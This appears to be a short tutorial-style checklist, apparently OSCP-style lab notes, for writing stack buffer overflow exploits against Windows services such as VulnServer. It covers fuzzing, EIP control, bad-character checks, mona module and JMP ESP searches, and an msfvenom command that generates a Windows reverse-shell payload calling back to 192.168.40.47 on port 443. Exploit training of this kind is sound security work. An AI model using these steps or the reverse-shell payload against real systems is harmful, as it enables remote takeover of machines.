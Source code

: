 1. Fuzz it and have it crash with all A's

2. Take control of EIP and one other register (ESP, EAX, etc.)

    A. Use `pattern_create $buffersize` and `pattern_offset $register_value`

3. Find badchars

    A. Use `!mona bytearray -b "\x00"` or use own Python algo (even better)

4. Generate the shellcode and insert it into the script
    
    A. Remember to generate the shellcode excluding the bad chars! Example:
    ```bash
    msfvenom -f python -b '\x00' -p windows/shell_reverse_tcp LHOST=192.168.40.47 LPORT=443 \
    EXITFUNC=thread > revshellwin.py`
    ```

    B. Remember to add at least 16 nops in front of the shellcode or it won't work!

5. Find space for the shellcode

    A. Try increasing buffer in necessary

6. Find instruction that will change the execution flow, e.g. JMP ESP / JMP EAX:

    A. Use nasm_shell to obtain intrcution opcodes
    
    B. First find module without ASLR and possible DEP protections: `!mona modules`
    
    C. Second find the instruction inside unprotected module, e.g. `!mona find -s "\xff\xe4" -m VulnServer.exe`
    
    D. Remember that the instruction address must not contain any bad chars!
    
    E. Remember to revert the address in your code! E.g. 0x65d11d71 becomes "\x71\x1d\xd1\x65"

    F. In more complex case when you control ESP but don't have enough space and some other register (e.g. EAX) 
       doesn't point exactly at the beginning of the controllable input you can write
    
    ```nasm    
    add eax, $offset
    jmp eax
    ```    
    
    instructions into ESP, and then put your shellcode into EAX+$offset

7. Test it.
